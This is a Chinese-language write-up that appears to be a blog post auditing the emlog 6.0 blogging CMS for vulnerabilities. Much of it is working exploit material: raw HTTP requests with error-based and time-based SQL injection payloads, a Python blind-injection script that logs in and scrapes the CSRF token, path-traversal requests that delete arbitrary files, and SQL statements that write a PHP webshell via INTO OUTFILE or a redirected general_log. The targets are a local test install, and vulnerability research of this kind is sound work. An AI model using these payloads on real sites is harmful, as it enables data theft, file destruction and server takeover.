记录emlog6.0审计过程以及漏洞分析
全局分析 分析网站根目录下/index.php包含的头文件/init.php，可以发现，其中对GET,POST等进行处理的只有第二十一行的函数doStripslashes()，跟踪该函数，发现该函数作用居然还是去除转义字符，所以可以说，全局对GET,POST数据实际上是毫无过滤的。所以接下来，我们可以在Seay审计系统下进行全局搜索GET和POST的数据，如果没有其他过滤，那么是非常好利用的。

漏洞分析 1.SQL注入 /admin/comment.php第46行语句$ip = isset($_GET['ip']) ? $_GET['ip'] : '';未对参数$_GET['ip']进行过滤，在47行中将变量$ip传入函数delCommentByIp()，跟踪该函数，在/include/model/comment_model.php中第152行中将该参数拼接到SQL语句，经由单引号包裹


经过全局分析我们知道实际上$_GET['ip']参数是没有任何过滤的，所以我们可以很轻松的进行SQL注入，这里采用的是报错注入
payload如下：
1 2 3 4 5 6 7 8 9 10 GET /emlog/admin/comment.php?action=delbyip&ip=127.0.0.1'%20and%20extractvalue(1,concat(0x3a,database(),0x3a))%23&token=2559f394de1177aaf9652f6ea371566d HTTP/1.1 Host: 127.0.0.1 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Referer: http://127.0.0.1/emlog/admin/comment.php Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: em_plugin_new=block; em_link_new=inline-block; commentposter=admin01; posterurl=http%3A%2F%2F127.0.0.1%2Femlog%2F; bdshare_firstime=1551059496947; PHPSESSID=g99k0jev6eed0jpuce6tvm1jl3; EM_TOKENCOOKIE_b90fd1a800e81fa678ed0f0c7fcb8918=2559f394de1177aaf9652f6ea371566d; EM_AUTHCOOKIE_ZxwSU5f12C3Kkwq6CRTVyZyxqZwUYLbl=admin01%7C%7C812cc3b37c64625ef752ca57370b76e1 Connection: close
注意这里因为有检查Token机制，所以我们必须在页面上进行抓包

同样在/admin/tag.php第44行语句$tags = isset($_POST['tag']) ? $_POST['tag'] : '';未对变量$_POST['tag']进行过滤，在53行中将变量$tags的键值传入函数deleteTag()，跟踪函数，在/include/model/tag_model.php中将该变量拼接到DELETE语句中


因为是DELETE语句，所以这里采用延时注入，同时需要注意因为我们不能保证$tagId一定存在于表中，而且即便存在，执行完一次也会被删除，所以这里采用or连接，保证后面的延时注入语句能执行，payload如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 POST /emlog/admin/tag.php?action=dell_all_tag HTTP/1.1 Host: 127.0.0.1 Content-Length: 101 Cache-Control: max-age=0 Origin: http://127.0.0.1 Upgrade-Insecure-Requests: 1 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Referer: http://127.0.0.1/emlog/admin/tag.php Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: em_plugin_new=block; commentposter=admin01; posterurl=http%3A%2F%2F127.0.0.1%2Femlog%2F; bdshare_firstime=1551059496947; PHPSESSID=g99k0jev6eed0jpuce6tvm1jl3; BLUE[user_id]=4; BLUE[user_name]=user03; BLUE[user_pwd]=25f1d8643365bf6087fae3b2b5b012d6; EM_TOKENCOOKIE_b90fd1a800e81fa678ed0f0c7fcb8918=2559f394de1177aaf9652f6ea371566d; EM_AUTHCOOKIE_ZxwSU5f12C3Kkwq6CRTVyZyxqZwUYLbl=admin01%7C%7C812cc3b37c64625ef752ca57370b76e1 Connection: close tag[0 or if(ascii(substr(database(),0,1))%3d101,0,sleep(3))]=1&token=2559f394de1177aaf9652f6ea371566d
之后就是写脚本注入，但是这里同样采用了验证TOKEN机制，而且我们必须登录后台才能进行该项操作，所以需要采用python的Session机制进行登录并抓取页面TOKEN值，代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 import requestsimport timefrom bs4 import BeautifulSoupdef login (s,login_url,user,pw) : login_data = { 'user' :user, 'pw' :pw } r = s.post(url=login_url,data=login_data) def get_token (s,token_url) : r = s.get(token_url) soup = BeautifulSoup(r.text,'lxml' ) token = soup.find_all('input' ,attrs={'name' :'token' })[0 ]['value' ] return token def get_database (s,url,token) : database = "" flag = 0 for i in range(1 ,20 ): for j in range(95 ,123 ): data = { 'tag[0 or if(ascii(substr(database(),%d,1))=%d,sleep(3),0)]' %(i,j):'1' , 'token' :token } start = time.perf_counter() s.post(url,data=data) end = time.perf_counter() t = end - start if t >= 3 : database = database + chr(j) flag = 1 break if j == 122 and flag == 0 : break flag = 0 print("database:" ,database) if __name__ == '__main__' : s = requests.Session() login_url = "http://127.0.0.1/emlog/admin/index.php?action=login" login(s,login_url,'admin01' ,'admin01' ) token_url = "http://127.0.0.1/emlog/admin/tag.php" token = get_token(s,token_url) target_url = "http://127.0.0.1/emlog/admin/tag.php?action=dell_all_tag" get_database(s,target_url,token)
/admin/navbar.php第78行$pages = isset($_POST['pages']) ? $_POST['pages'] : array();存在未过滤变量$pages，在85行将变量$pages的键值作为变量$id传入函数addNavi()中，跟踪该函数，在/include/model/navi_model.php中将该变量拼接到INSERT语句中


INSERT注入我们采用的是select case when 条件 then sleep(3) else 1 end的延时注入，payload如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 POST /emlog/admin/navbar.php?action=add_page HTTP/1.1 Host: 127.0.0.1 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: em_plugin_new=block; em_link_new=inline-block; commentposter=admin01; posterurl=http%3A%2F%2F127.0.0.1%2Femlog%2F; bdshare_firstime=1551059496947; PHPSESSID=g99k0jev6eed0jpuce6tvm1jl3; EM_TOKENCOOKIE_b90fd1a800e81fa678ed0f0c7fcb8918=2559f394de1177aaf9652f6ea371566d; EM_AUTHCOOKIE_ZxwSU5f12C3Kkwq6CRTVyZyxqZwUYLbl=admin01%7C%7C812cc3b37c64625ef752ca57370b76e1 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 5 pages[1%2b(select case when(1%3d1) then sleep(3) else 1 end)]=1
脚本参考上面，这里略
2.任意文件删除漏洞 /admin/data.php第143-144行存在未过滤变量$_POST['bak']拼接到unlink中，导致任意路径穿越删除文件漏洞

payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 POST /emlog/admin/data.php?action=dell_all_bak HTTP/1.1 Host: 127.0.0.1 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: em_plugin_new=block; em_link_new=inline-block; commentposter=admin01; posterurl=http%3A%2F%2F127.0.0.1%2Femlog%2F; bdshare_firstime=1551059496947; PHPSESSID=g99k0jev6eed0jpuce6tvm1jl3; EM_TOKENCOOKIE_b90fd1a800e81fa678ed0f0c7fcb8918=2559f394de1177aaf9652f6ea371566d; EM_AUTHCOOKIE_ZxwSU5f12C3Kkwq6CRTVyZyxqZwUYLbl=admin01%7C%7C812cc3b37c64625ef752ca57370b76e1 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 21 bak[0]=../../hint.php
/admin/blogger.php第92行存在危险函数unlink，跟踪变量$icon_1，该变量来自80行中的sql查询字段photo 返回结果，跟踪语句31行中变量$photo通过POST传入，有转义处理，并在72行中将photo更新到数据库中，虽然有转义处理，依旧可以造成任意路径穿越删除文件




实现的过程如下：先通过POST将构造的任意路径变量$photo更新到数据库中（$action=update），再通过$action=delicon触发unlink($icon_1)，进行任意文件删除
payload如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 POST /emlog/admin/blogger.php?action=update HTTP/1.1 Host: 127.0.0.1 Content-Length: 979 Cache-Control: max-age=0 Origin: http://127.0.0.1 Upgrade-Insecure-Requests: 1 Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVzcf6UrvpBos4Orw User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Referer: http://127.0.0.1/emlog/admin/blogger.php?active_del=1 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: em_plugin_new=block; em_link_new=inline-block; commentposter=admin01; posterurl=http%3A%2F%2F127.0.0.1%2Femlog%2F; bdshare_firstime=1551059496947; PHPSESSID=g99k0jev6eed0jpuce6tvm1jl3; EM_TOKENCOOKIE_b90fd1a800e81fa678ed0f0c7fcb8918=2559f394de1177aaf9652f6ea371566d; EM_AUTHCOOKIE_ZxwSU5f12C3Kkwq6CRTVyZyxqZwUYLbl=admin01%7C%7C812cc3b37c64625ef752ca57370b76e1 Connection: close ------WebKitFormBoundaryVzcf6UrvpBos4Orw Content-Disposition: form-data; name="photo" ../../info.php
3.通过后台数据库备份上传webshell 对于在/emlog/init.php 中的变量 $action，当我们通过GET方式传入$action[]数组的形式，会出现语法错误报错导致的网站路径泄露，可以考虑结合sql注入写入webshell

在/admin/data.php中发现了可以进行本地数据库备份，并可以上传数据库备份文件

那么就可以考虑加入语句
SELECT "<?php phpinfo(); ?>" INTO outfile "E:\php\PHPTutorial\WWW\emlog\shell.php";如果网站数据库的配置secure_file_priv为空，那么我们就可以直接在网站根目录下写入webshell
我们先随意备份一个数据库文件，然后加入上述语句，上传

结果出现了报错信息The MySQL server is running with the --secure-file-priv option so it cannot execute this statement说明数据库配置secure_file_priv为null，并且我们无法通过SQL语句改变该配置值，在数据库中验证show global variables like '%secure%';
所以我们考虑另一种方法，通过设置SQL日志的方式，首先需要保证general_log=on，再修改general_log_file的日志写入文件绝对路径
在数据库文件中加入语句：
1 2 3 SET GLOBAL general_log = 'on'; SET GLOBAL general_log_file = 'E:/php/PHPTutorial/WWW/emlog/shell.php'; SELECT '<?php phpinfo(); ?>';
然后上传

可以看出显示了上传成功
然后我们可以看到在网站的根目录下出现了shell.php即我们上传的webshell，它实际上是一个日志文件，只不过我们加入了可执行的Php代码


访问

4.通过上传ZIP文件上传webshell /admin/plugin.php页面可以上传一个zip压缩包，并在后台将压缩包解压成文件

跟踪emUnZip()函数，在/include/lib/function.base.php下：

图中有我自己添加的测试代码，用来测试ZipArchive类的getNameIndex和getFromName函数的输出值
我们试着上传一个test.zip，压缩包中包含demo文件夹，demo文件夹下包含demo.php文件

可以看出这里getNameIndex()函数返回结果是压缩包下的文件夹名即demo/，在768行中$dir . $plugin_name . '.php'拼接的结果是demo/demo.php即压缩包下的目录内容，从响应包结果来看是上传成功的
